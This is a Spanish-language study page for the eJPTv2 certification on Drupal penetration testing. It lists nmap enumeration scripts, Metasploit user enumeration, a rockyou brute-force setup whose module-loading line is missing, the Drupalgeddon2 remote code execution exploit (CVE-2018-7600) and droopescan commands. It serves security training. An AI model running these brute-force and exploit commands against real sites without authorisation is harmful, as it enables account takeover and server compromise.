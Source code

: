 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Drupal

Un sistema de gestión de contenidos (CMS por sus siglas en inglés) es una herramienta de software que permite a los usuarios añadir, publicar, editar o eliminar contenido desde un sitio web, utilizando un navegador web en un smartphone, tablet u ordenador personal. Habitualmente un software CMS se escribe en un lenguaje de programación que se ejecuta en un ordenador, donde se instalan un servidor web y una base de datos. El contenido y las opciones de configuración del sitio web normalmente se guardan en la base de datos, y por cada petición de página que recibe el servidor web, el sistema combina la información de la base de datos y los recursos (archivos JavaScript, CSS, imágenes, etc. que son parte del CMS o que han sido añadidos) para construir la página solicitada del sitio web.

## 🕵️ Identificación de la versión de Drupal y sus componentes.

```bash
nmap -sV --script http-drupal-enum <url> # Detección de versión de Drupal y módulos.
nmap -sV --script "http-drupal* and not http-drupal-brute" <url> # Escaneo de vulnerabilidades en Drupal.
nmap -sV --script http-drupal-users <url> # Detección de usuarios de Drupal.
nmap --script=http-drupal-enum --script-args http-drupal-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar si se está utilizando Drupal.
nmap --script=http-vuln* -p 80,443 <url> # Detectar vulnerabilidades específicas en Drupal y sus módulos.
```

Antes de realizar cualquier escaneo del CMS Drupal, es recomendable revisar ciertos directorios específicos.

- CHANGELOG.txt

Si el servicio web no carga correctamente o parece inaccesible, podríamos estar ante un caso de virtual hosting. En ese caso, debemos agregar el dominio correspondiente en nuestro /etc/hosts, añadiendo la IP de la web y el dominio al que queremos apuntar, por ejemplo: 10.0.0.10 drupal.htb.

## 🛠️ Escaneo básico Drupal con Metasploit.

```bash
use auxiliary/scanner/http/drupal_version # Cargar módulo que vamos a utilizar.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🕵️ Enumerar Usuarios de Drupal

```bash
use auxiliary/scanner/http/drupal_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit:

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Aquí le indicamos el nombre de usuario contra el que queramos atentar.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Seleccionamos el diccionario a utilizar.
run
```

 💡 ¡IMPORTANTE! : 

El exploit Drupalgeddon2 (CVE-2018-7600) afecta a las siguientes versiones de Drupal:

- Drupal 6.x (todas las versiones)

- Drupal 7.x (todas las versiones antes de 7.58)

- Drupal 8.x (todas las versiones antes de 8.5.1).

## 🛠️ Ejecución del exploit Drupalgeddon2 con Metasploit.

Drupalgeddon2 es una vulnerabilidad crítica (CVE-2018-7600) que permite la ejecución remota de código en versiones vulnerables de Drupal.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2 # Seleccionamos el exploit a utilizar.
set RHOSTS <url> # Le indicamos la url del objetivo.
set RPORT 80
set TARGETURI /
run # Iniciamos el ataque.
```

Este exploit aprovecha una ejecución arbitraria de código a través de la manipulación de formularios en Drupal.

---

## 🛠️ Otras herramientas para auditar Drupal.

### Droopescan

Droopescan es una herramienta especializada en la enumeración y auditoría de sitios web basados en Drupal. Permite detectar vulnerabilidades, enumerar usuarios, módulos y temas instalados.

```bash
droopescan scan drupal -u <url_drupal> # Análisis básico del sitio Drupal.
droopescan scan drupal -u <url_drupal> -e plugins, themes # Enumerar módulos y temas instalados.
```

